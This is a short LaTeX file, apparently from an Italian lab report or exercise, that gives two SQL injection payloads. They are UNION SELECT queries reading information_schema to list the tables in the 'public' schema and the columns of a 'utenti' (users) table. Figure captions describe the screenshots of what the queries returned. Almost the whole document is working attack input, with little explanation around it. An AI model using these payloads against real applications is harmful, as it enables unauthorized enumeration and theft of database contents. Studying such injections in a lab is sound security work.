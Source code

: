 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{itemize}
  \item \textbf{Query 1:}
  \begin{lstlisting}
' UNION SELECT NULL, table_name, NULL FROM information_schema.tables WHERE table_schema='public' -- 
  \end{lstlisting}

  \item \textbf{Query 2:}
  \begin{lstlisting}
' UNION SELECT NULL, column_name, NULL FROM information_schema.columns WHERE table_name='utenti' --
  \end{lstlisting}
\end{itemize}

\begin{figure}[h!]
  \centering
  \includegraphics[width=0.7\textwidth]{query_tabelle.png}
  \caption{Output della query SQLi che rivela i nomi delle tabelle presenti nello schema pubblico.}
\end{figure}

\vspace{0.5cm}

\begin{figure}[h!]
  \centering
  \includegraphics[width=0.7\textwidth]{query_colonne.png}
  \caption{Output della query SQLi che rivela i nomi delle colonne della tabella \texttt{utenti}.}
\end{figure}
\end{document}
